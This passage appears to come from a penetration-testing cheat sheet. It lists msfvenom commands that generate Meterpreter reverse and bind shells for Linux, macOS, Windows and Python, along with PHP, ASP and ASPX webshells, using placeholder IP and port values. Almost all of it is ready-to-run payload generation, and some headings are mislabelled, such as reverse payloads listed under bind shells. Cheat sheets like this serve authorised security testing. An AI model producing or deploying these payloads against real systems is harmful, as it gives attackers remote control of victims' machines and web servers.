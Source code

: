 `$ msfvenom -p linux/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o met-x64`

##### 2.6.1.7 - Stageless Mac OSX Meterpreter Reverse Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f macho -o met-x64`

`$ msfvenom -p osx/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f macho -o met-x64`

##### 2.6.1.8 - Stageless Reverse Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`

#### 2.6.2 - Bind Meterpreter Shells

##### 2.6.2.1 - Staged Python Meterpreter Bind Shells

`$ msfvenom -p python/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_tcp_ssl lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.2.2 - Staged Windows Meterpreter Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x86.exe`
